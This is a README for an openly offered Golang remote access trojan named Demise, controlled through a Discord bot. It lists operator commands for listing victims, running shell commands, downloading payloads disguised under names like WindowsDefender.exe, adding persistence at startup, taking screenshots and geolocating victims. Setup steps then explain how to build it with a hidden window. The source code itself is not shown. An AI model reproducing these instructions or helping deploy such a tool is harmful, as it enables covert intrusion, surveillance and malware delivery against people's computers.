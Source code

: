 # Demise

Demise is Golang malware that uses Discord for communication. 

![image](https://user-images.githubusercontent.com/99378532/184524385-89bda0f6-b46d-4e5e-868f-f044dac0ae1d.png)

# Demo

![image](https://user-images.githubusercontent.com/99378532/184524374-a18668bc-7888-4912-b4be-269bedde7b6e.png)

# Commands

show victims connected

$victims


extract a zip file

$unzip <username> <.zip file on drive> <directory to extract in>

Example:

$unzip DESKTOP-2HJUUK6\Tod main.zip C:\msys64\home\Tod\projects\go\src\github.com\0xSegFaulted\


run Demise on startup

$startup <username>

Example

$startup DESKTOP-2HJUUK6\Tod


run an executable (some executables require admin)

$run <username> <location of exe>

Example

$run DESKTOP-2HJUUK6\Tod file.exe


download file

$dl <username> <url> <name of file>

Example

$dl DESKTOP-2HJUUK6\Tod http://somesite.com/payload.exe WindowsDefender.exe


run commands

$shell <username> <command> <flags... optional>

Example 

$shell DESKTOP-2HJUUK6\Tod whoami


screenshot desktop

$ss <username>

Example

$ss DESKTOP-2HJUUK6\Tod


get IP

$ip <username>

Example

$ip DESKTOP-2HJUUK6\Tod


kill session

$kill <username>

$kill DESKTOP-2HJUUK6\Tod


geolocate

$geoloc <username>

$geoloc DESKTOP-2HJUUK6\Tod


# HOWTO

1. Download the source code
2. Download golang https://go.dev choose the correct install for your os
3. make a server (this is a discord bot RAT)
4. make a bot. I won't show you how because there are many tutorial on youtube https://www.youtube.com/watch?v=7A-bnPlxj4k&t=20s
5. add the bot to your server and make a new text channel in your server
6. copy your bot's token and the id of the text channel you just created
![image](https://user-images.githubusercontent.com/99378532/192041038-0c5dcd79-a98b-45ea-88fe-800bb28e5fbe.png)
7. put the channel id here at the beginning of the source code 
![image](https://user-images.githubusercontent.com/99378532/192041183-22706c07-32f7-4763-b822-d90cdd3c092b.png)
8. put your bot's token here
9. compile with a command similiar to this one "go build -ldflags="-s -w -H=windowsgui" ." -H=windowsgui will hide the window

if the bot doesn't respond to commands change your intents


